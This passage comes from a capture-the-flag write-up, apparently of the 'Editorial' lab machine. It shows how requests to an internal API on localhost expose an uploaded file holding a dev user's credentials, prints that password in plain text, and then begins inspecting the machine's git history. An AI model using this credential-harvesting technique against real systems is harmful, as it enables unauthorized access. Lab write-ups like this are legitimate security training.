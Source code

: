 ```bash
  ]
}
```

We can now go through the api endpoints and download them in .json format. To check the changelog we would use `http://127.0.0.1:5000/api/latest/metadata/changelog` and then open the file returned in the response. Going through the endpoints the `api/latest/metadata/messages/authors` is interesting.

Call the authors api endpoint

<figure><img src="broken-reference" alt=""><figcaption><p>Call the api endpoint on 127.0.0.1</p></figcaption></figure>

In burp check the response for filename.

<figure><img src="broken-reference" alt=""><figcaption><p>Get the filename and curl it</p></figcaption></figure>

Using curl open the file and its where dev credentials are found which we can use to login on SSH.

{% code overflow="wrap" %}
```bash
$ curl http://editorial.htb/static/uploads/4e5a7791-9753-4b73-8178-834ea3663a6a | jq 
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```
{% endcode %}

<figure><img src="broken-reference" alt=""><figcaption><p>Logging in gets user flag.</p></figcaption></figure>

## Git

Opening the `/apps` folder, it shows git is present on the machine `/home/dev/apps/.git`. Which indicates this directory is a Git repository.

{% embed url="https://www.youtube.com/watch?ab_channel=Fireship&v=hwP7WQkmECE" %}

Checking the git logs we find several commits.

{% hint style="info" %}
A **Git commit** is a snapshot of changes in a Git repository. It represents a point in the history of the project, recording the current state of the files (or changes to files) at a specific moment.
{% endhint %}

```bash
dev@editorial:~/apps$ git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500
```